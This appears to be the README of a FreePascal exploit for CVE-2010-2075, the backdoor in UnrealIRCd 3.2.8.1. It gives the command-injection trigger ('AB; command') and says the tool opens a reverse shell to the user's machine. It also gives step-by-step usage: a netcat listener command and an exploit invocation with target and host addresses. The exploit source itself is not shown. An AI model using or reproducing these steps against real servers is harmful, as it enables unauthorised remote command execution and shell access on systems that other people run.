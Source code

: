 # CVE-2010-2075
FreePascal implementation of CVE-2010-2075

## Vulnerability
### UnrealIRCd 3.2.8.1
RCE by sending "`AB; command`" to any listening service. Any command you send is executed by the same user as UnrealIRCD runs as.

This implementation launches a reverse shell to your listener.

#### Step 1
Start a listener, ex. `netcat -lvp 4444`

#### Step 2
Execute exploit `./exploit <target ip> <target port> <host ip> <host port>` where host ip and port is where your listener is running

## Requirements
Synapse. If you don't have it, install through the OPM
